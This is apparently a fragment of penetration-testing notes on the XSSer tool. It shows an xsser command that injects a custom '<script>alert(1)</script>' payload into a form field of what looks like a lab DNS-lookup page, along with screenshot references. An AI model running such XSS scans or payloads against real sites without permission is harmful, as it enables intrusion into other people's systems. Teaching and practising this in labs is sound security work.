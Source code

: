 ![xsser --auto](.gitbook/assets/image-20230504234754209.png)

- Use a custom XSS payload

```bash
xsser --url 'http://192.131.167.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```

![](.gitbook/assets/image-20230504234951322.png)
